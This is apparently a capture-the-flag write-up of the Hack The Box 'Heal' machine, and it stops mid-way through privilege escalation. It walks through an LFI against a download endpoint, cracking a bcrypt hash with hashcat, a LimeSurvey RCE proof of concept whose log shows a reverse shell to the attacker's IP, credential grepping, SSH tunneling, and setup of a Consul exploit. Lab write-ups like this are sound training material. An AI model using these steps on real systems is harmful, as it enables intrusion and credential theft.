The last 5 seem very promising. The download one could be exploited with a lfi and the take-survey is a whole new subdomain.
After adding the new subdomain to the hosts file, I enter and there is a LimeSurvey page, unlucky it doesn't show any version, not even whatweb shows the version

┌──(oriol㉿zero)-[~/htb/heal]
└─$ whatweb http://take-survey.heal.htb/index.php/
http://take-survey.heal.htb/index.php/ [200 OK] Cookies[LS-ZNIDJBOXUNKXWTIP], Country[RESERVED][ZZ], Email[ralph@heal.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[LS-ZNIDJBOXUNKXWTIP], IP[10.10.11.46], JQuery, Lime-Survey, MetaGenerator[LimeSurvey http://www.limesurvey.org], Script[text/javascript], Title[Survey][Title element contains newline(s)!], X-UA-Compatible[IE=edge], nginx[1.18.0]
I sign up on the page (I don't try to do a SQL injection). Seems to be a resume builder:

At the bottom, the Export as pdf button triggers the download? potential LFI

Attack
Gaining access
Continuing the recon phase, I bring the packet captured of the /download?filename endpoint and variable to the repeater.
After trying for some time, I finally get the LFI. Note that I used the GET petition, not the OPTIONS one, seen on the last image.

I see 2 interesting users: ron and ralph
I think we can get some more information exploiting this LFI.
A quick search I see that the ruby on rails configuration is located on the config/application.rb file.
- https://guides.rubyonrails.org/configuring.html

On this file there's information about the application, nothing I already knew. On this page there's all the files on the config directory listed:
https://useful.codes/the-config-directory-in-ruby-on-rails/
The routes.rb file contains the application's routes.

And on the database.yml file we can see the database connection:

At the bottom of the response, we see that the database is a sqlite3 and it's location: storage/development.sqlite3 So I try to access it:

Yes, now we have the database in a text form, for easily manipulating it, I select the database text and do right click and save to a file. And now I have the sqlite3 file on my local computer.
┌──(oriol㉿zero)-[~/htb/heal]
└─$ sqlite3 database.sqlite3
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
ar_internal_metadata token_blacklists
schema_migrations users
sqlite> select * from users;
1|ralph@heal.htb|$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG|2024-09-27 07:49:31.614858|2024-09-27 07:49:31.614858|Administrator|ralph|1
2|sq@sq.sq|$2a$12$4xmhAalWCE8g/tKfv3x6JOhdqi2Y5AGxSrJJDo0I7.hR6WmASBZmq|2025-04-14 06:20:53.120106|2025-04-14 06:20:53.120106|sq|sq|0
3|test02@gmail.com|$2a$12$Nq6YXZ19yMH0B/uW2HNfsOIlHPQrMaW9U5SEWxPVqEy1AraqHSFD2|2025-04-14 09:10:25.412684|2025-04-14 09:10:25.412684|test02|test02|0
We have the ralph user's password hash. The test02 is mine and the sq is maybe from another user working on the machine(?)
A quick look at the hashcat wiki and I know that the hash type is a bcrypt. So let's try to crack it with hashcat
┌──(oriol㉿zero)-[~/htb/heal]
└─$ hashcat -m 3200 ralph_hash.txt /usr/share/wordlists/rockyou.txt.gz -w 3 -S
hashcat (v6.2.6) starting
OpenCL API (OpenCL 3.0 PoCL 6.0+debian Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 9 9900X 12-Core Processor, 11465/22995 MB (4096 MB allocatable), 12MCU
Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72
Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1
Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
Watchdog: Temperature abort trigger set to 90c
Host memory required for this attack: 0 MB
Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt.gz
* Passwords.: 14344394
* Bytes.....: 139921523
* Keyspace..: 14344387
* Runtime...: 1 sec
$2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9SWx1GCSZnG:147258369
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$12$dUZ/O7KJT3.zE4TOK8p4RuxH3t.Bz45DSr7A94VLvY9S...GCSZnG
Time.Started.....: Mon Apr 14 12:21:50 2025 (8 secs)
Time.Estimated...: Mon Apr 14 12:21:58 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt.gz)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 78 H/s (56.99ms) @ Accel:12 Loops:128 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 576/14344387 (0.00%)
Rejected.........: 0/576 (0.00%)
Restore.Point....: 432/14344387 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:3968-4096
Candidate.Engine.: Host Generator + PCIe
Candidates.#1....: jenny -> barney
Hardware.Mon.#1..: Util: 86%
Started: Mon Apr 14 12:21:35 2025
Stopped: Mon Apr 14 12:21:59 2025
User: ralph Password: 147258369
Unlucky, this isn't the ssh password
┌──(oriol㉿zero)-[~/htb/heal]
└─$ ssh ralph@heal.htb
The authenticity of host 'heal.htb (10.10.11.46)' can't be established.
ED25519 key fingerprint is SHA256:/VqroO/Kmxq00rboKFY9TylfAkNdJOiWIOBhnIA4VMs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'heal.htb' (ED25519) to the list of known hosts.
ralph@heal.htb's password:
Permission denied, please try again.
I log in onto the heal.htb site with the ralph admin but I don't see anything special I can do... And on the recon phase I didn't detect any admin portal or something like that, and on the routes.rb file also there's no administration panel route.
Where I didn't search is on the take-survey domain. Looking at the internet I see that the admin panel for lime survey is the admin page. And it works:

It works and I have access to the control panel:

We can see the version of LimeSurvey on here: Community Edition Version 6.6.4
I see a very interesting POC:
https://github.com/godylockz/CVE-2021-44967
I execute it:
┌──(oriol㉿zero)-[~/htb/heal]
└─$ git clone https://github.com/godylockz/CVE-2021-44967.git
Cloning into 'CVE-2021-44967'...
remote: Enumerating objects: 4, done.
remote: Counting objects: 100% (4/4), done.
remote: Compressing objects: 100% (4/4), done.
remote: Total 4 (delta 0), reused 4 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (4/4), done.
┌──(oriol㉿zero)-[~/htb/heal/CVE-2021-44967]
└─$ python3 limesurvey_rce.py -t http://take-survey.heal.htb -u 'ralph' -p '147258369'
[*] Authenticating ...
[+] Login successful!
[*] Uploading plugin ...
[*] Activating plugin ...
[*] Starting listener and sending reverse shelll ...
listening on [any] 4444 ...
connect to [10.10.14.61] from (UNKNOWN) [10.10.11.46] 51912
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
14:41:19 up 10:39, 0 users, load average: 0.01, 0.02, 0.01
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
And we are in!
I spawn a bash shell with the python command:
$ python3 -c "import pty;pty.spawn('/bin/bash')"
I don't see the user flag, meaning we still have to pivot to some other user to get it.
I see that there is a lot of services running on localhost:
www-data@heal:~$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:5432 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3001 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8302 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8300 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8301 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8503 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8500 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN 1169/nginx: worker
tcp 0 0 127.0.0.1:8600 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 0.0.0.0:5353 0.0.0.0:* -
udp 0 0 127.0.0.53:53 0.0.0.0:* -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
udp 0 0 127.0.0.1:8301 0.0.0.0:* -
udp 0 0 127.0.0.1:8302 0.0.0.0:* -
udp 0 0 0.0.0.0:33099 0.0.0.0:* -
udp 0 0 127.0.0.1:8600 0.0.0.0:* -
udp6 0 0 :::5353 :::* -
udp6 0 0 :::52461 :::* -
But I can't map those ports on my local machine via ssh tunnel, as I don't have any ssh credential... The same goes for using sudo -l. I take note of this ports as very probably I will be using for privilege escalation once I got the user credentials.
So my safe bet right now should be checking the web files to see if there is some plain text password.
www-data@heal:~$ cd
cd
www-data@heal:~$ ls
ls
html limesurvey
www-data@heal:~$ cd limesurvey
cd limesurvey
www-data@heal:~/limesurvey$ ls
ls
LICENSE assets installer plugins themes
README.md docs locale psalm-all.xml tmp
SECURITY.md editor modules psalm-strict.xml upload
admin gulpfile.js node_modules psalm.xml vendor
application index.php open-api-gen.php setdebug.php
I use this command to put all the lines that contain the string password in a separate text file.
www-data@heal:~/limesurvey$ find . -type f -exec file {} + | grep -i 'text' | cut -d: -f1 | xargs grep -i 'password' > passwords.txt
< -d: -f1 | xargs grep -i 'password' > passwords.txt
Also, it doesn't seem the www-data user has permissions to read the ruby on rails app directory, I searched for the database and I don't see it.
www-data@heal:~/limesurvey$ find / -iname 'development.sqlite3' 2>/dev/null
find / -iname 'development.sqlite3' 2>/dev/null
On the password grep I see this:
'password' => 'AdmiDi0_pA$$w0rd',
So, I try to ssh into the host with the password gotten and with the ralph user.
┌──(oriol㉿zero)-[~/htb/heal]
└─$ ssh ralph@heal.htb
ralph@heal.htb's password:
Permission denied, please try again.
ralph@heal.htb's password:
Permission denied, please try again.
ralph@heal.htb's password:
Still doesn't work... I will try with the ron user found earlier on the /etc/passwd file
┌──(oriol㉿zero)-[~/htb/heal]
└─$ ssh ron@heal.htb
ron@heal.htb's password:
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)
Yes!
Privilege escalation
The user ron doesn't have sudo permissons...
ron@heal:~$ sudo -l
[sudo] password for ron:
Sorry, user ron may not run sudo on heal.
I think that the ports running on localhost that I discovered earlier are very interesting, and now that I can do ssh tunneling.
ron@heal:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address Foreign Address State PID/Program name
tcp 0 0 127.0.0.1:5432 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.53:53 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3000 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:3001 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8302 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8300 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8301 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:22 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8503 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8500 0.0.0.0:* LISTEN -
tcp 0 0 0.0.0.0:80 0.0.0.0:* LISTEN -
tcp 0 0 127.0.0.1:8600 0.0.0.0:* LISTEN -
tcp6 0 0 :::22 :::* LISTEN -
udp 0 0 0.0.0.0:5353 0.0.0.0:* -
udp 0 0 127.0.0.53:53 0.0.0.0:* -
udp 0 0 0.0.0.0:68 0.0.0.0:* -
udp 0 0 127.0.0.1:8301 0.0.0.0:* -
udp 0 0 127.0.0.1:8302 0.0.0.0:* -
udp 0 0 0.0.0.0:33099 0.0.0.0:* -
udp 0 0 127.0.0.1:8600 0.0.0.0:* -
udp6 0 0 :::5353 :::* -
udp6 0 0 :::52461 :::* -
I map all the ports on my local machine thanks to a quick python script I did for future occasion.
┌──(oriol㉿zero)-[~/htb/heal]
└─$ python3 generate_tunnels.py ron@heal.htb text.txt
🔗 SSH Command:
ssh -N -L 3000:localhost:3000 -L 3001:localhost:3001 -L 5432:localhost:5432 -L 8300:localhost:8300 -L 8301:localhost:8301 -L 8302:localhost:8302 -L 8500:localhost:8500 -L 8503:localhost:8503 -L 8600:localhost:8600 ron@heal.htb
ron@heal.htb's password:
On the port 8500 I see that there is Consul v1.19.2 running, I don't need password to access it.
I see this CVE: https://www.exploit-db.com/exploits/51117
Let's check if this process is being run with root privileges, if it is, it would be a very good way to escalate.
ron@heal:~$ ps -aux | grep consul
root 1727 0.3 2.7 1359524 110504 ? Ssl 04:03 2:48 /usr/local/bin/consul agent -server -ui -advertise=127.0.0.1 -bind=127.0.0.1 -data-dir=/var/lib/consul -node=consul-01 -config-dir=/etc/consul.d
Yes! Now we need to execute that CVE to get a root shell.
I need the acl_token
┌──(oriol㉿zero)-[~/htb/heal]
└─$ python3 exploit.py
[-] Usage: python3 exploit.py <rhost> <rport> <lhost> <lport> <acl_token>
Looking at the script, seems that is on the headers:
headers = {"X-Consul-Token": f"{sys.argv[5]}"}
https://developer.hashicorp.com/consul/docs/v1.19.x/security/acl/tokens
Seems that there are no tokens...
